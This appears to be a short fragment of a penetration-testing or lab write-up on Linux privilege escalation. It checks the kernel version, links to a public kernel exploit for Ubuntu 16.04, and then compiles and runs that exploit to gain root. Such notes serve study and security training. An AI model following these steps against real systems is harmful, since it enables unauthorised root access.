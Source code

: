 **Search Kernel Version
```shell-session
uname -a
cat /etc/lsb-release
```
- We are on Linux Kernel 4.4.0-116 on an Ubuntu 16.04.4 LTS box
- Download the exploit: https://vulners.com/zdt/1337DAY-ID-30003

**Compile exploit
```shell-session
gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
./kernel_exploit
whoami
```
